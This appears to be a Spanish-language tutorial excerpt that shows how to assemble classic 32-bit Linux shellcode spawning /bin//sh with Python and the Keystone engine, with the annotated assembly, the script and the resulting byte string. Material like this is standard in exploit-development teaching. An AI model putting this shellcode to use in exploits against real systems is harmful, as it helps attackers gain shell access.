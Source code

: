 
### 🛠️ Ejemplo paso a paso: Generar shellcode en Python con Keystone

#### Paso 1: Instalar Keystone

```bash
pip install keystone-engine
```

#### Paso 2: Código Python para generar shellcode

```python
from keystone import Ks, KS_ARCH_X86, KS_MODE_32

# Ensamblador de 32 bits (para sistemas antiguos o educativos)
codigo = (
    "xor eax, eax;"         # eax = 0
    "push eax;"             # push 0 (NULL terminator)
    "push 0x68732f2f;"      # push '//sh'
    "push 0x6e69622f;"      # push '/bin'
    "mov ebx, esp;"         # ebx = puntero a "/bin//sh"
    "push eax;"             # push 0
    "mov edx, esp;"         # edx = 0
    "push ebx;"             # push puntero a "/bin//sh"
    "mov ecx, esp;"         # ecx = argv
    "mov al, 11;"           # syscall execve
    "int 0x80;"             # interrupción
)

# Inicializa Keystone
ks = Ks(KS_ARCH_X86, KS_MODE_32)

# Ensambla el código
shellcode, _ = ks.asm(codigo)

# Muestra el shellcode en formato \x..
formateado = ''.join(f'\\x{byte:02x}' for byte in shellcode)

print("Shellcode generado:")
print(f'b"{formateado}"')
```

---

#### 🧪 Salida esperada:

```python
Shellcode generado:
b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

Este es un shellcode clásico para **invocar `/bin//sh`** en Linux (32 bits).

---